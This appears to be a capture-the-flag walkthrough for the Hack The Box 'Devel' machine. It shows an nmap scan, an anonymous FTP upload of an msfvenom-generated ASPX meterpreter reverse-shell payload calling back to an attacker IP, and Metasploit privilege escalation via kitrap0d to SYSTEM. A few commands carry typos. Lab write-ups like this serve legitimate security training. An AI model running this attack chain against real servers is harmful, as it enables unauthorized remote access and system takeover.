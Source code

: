 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive

Port 21 allows for anonymous FTP Login

![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded

![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)

FTP Upload
<pre>binary</pre>
Binary is more reliable than ASCII

![binary](https://user-images.githubusercontent.com/66635295/176751701-f44d6a90-93e3-4937-ab12-c4d92f0137e0.png)

<pre>put ex.aspx</pre>
Uploads the file to 10.10.10.5/ex.aspx

![ex](https://user-images.githubusercontent.com/66635295/176751874-9fdd0d59-5380-40a9-b910-e72ebe2600ac.png)

**PRIVILEGE ESCALATION**
---
**Meterpreter session**
<pre>getuid</pre>
Accessing the webpage provides a session to the application server  

![succ](https://user-images.githubusercontent.com/66635295/176753250-c97e1bdb-8d68-4274-8b61-4232a3343fca.png)

**Exploit suggestor**
<pre>backround</pre>
<pre>use post/multi/recon/local_exploit_suggester</pre>
<pre>set session 1</pre>
<pre>run</pre>
![sugg](https://user-images.githubusercontent.com/66635295/176753936-0f153344-9e85-4c34-a1d5-0e5b7cf8a6f9.png)

**Exploit list**
13 possible exploits found
![exploit](https://user-images.githubusercontent.com/66635295/176754492-af9345d4-e291-4828-aba1-9ff9cbf18696.png)

Exploit
<pre>use exploit windows/local/ms10_015_kitrap0d</pre>
<pre>set options</pre>
<pre>run</pre>
Creates a new session with SYSTEM privileges
![shelld](https://user-images.githubusercontent.com/66635295/176754686-000b763f-7ae4-43ab-8bcd-01692a5a11cc.png)
![swag](https://user-images.githubusercontent.com/66635295/176754750-d8f63b76-aed9-4088-b88e-ea164f55d797.png)

**Root shell**
<pre>shell</pre>
![shellll](https://user-images.githubusercontent.com/66635295/176754848-78819fce-4e69-40b0-9bb1-0dd217271dd8.png)
![flags](https://user-images.githubusercontent.com/66635295/176754936-eedc3dbf-0a4a-4f8a-8e92-c9c973ec486d.png)
